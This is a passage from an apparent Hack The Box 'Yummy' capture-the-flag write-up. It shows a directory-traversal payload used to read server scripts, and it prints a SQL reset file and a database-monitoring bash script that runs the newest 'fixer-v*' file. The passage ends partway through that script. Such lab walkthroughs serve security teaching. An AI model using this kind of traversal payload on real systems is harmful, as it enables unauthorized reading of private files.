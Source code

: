 This script connects to the MySQL database `yummy_db` using the `chef` user and executes the SQL commands found in `/data/scripts/sqlappointments.sql`.

**sqlappointments.sql**

We can also check the SQL commands commands with the with the payload `/export/../../../../data/scripts/sqlappointments.sql`.

![sql_appointments queries](/images/HTB-Yummy/sqlappointments.png)

```SQL
TRUNCATE table users;
TRUNCATE table appointments;
INSERT INTO appointments (appointment_email, appointment_name, appointment_date, appointment_time, appointment_people, appointment_message, role_id) VALUES ("chrisjohnson@email.net", "Chris Johnson", "2024-05-25", "11:45", "2", "No allergies, prefer table by the window", "customer");

<SNIP> 

INSERT INTO appointments (appointment_email, appointment_name, appointment_date, appointment_time, appointment_people, appointment_message, role_id) VALUES ("michaelsmith@domain.edu", "Michael Smith", "2024-11-05", "20:45", "2", "Need a socket for laptop charging", "customer");
```

The `truncate` command empties the `users` and `appointments` tables. Some data is also inserted in the `appointments` table with some reservation details such as `appointment_email`, `appointment_name`, `appointment_date`, etc.

**dbmonitor.sh**
```
/export/../../../../data/scripts/dbmonitor.sh
```

![dbmonitor LFI request](/images/HTB-Yummy/dbmonitor.png)

![dbmonitor script content](/images/HTB-Yummy/dbmonitor2.png)

```bash
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
```
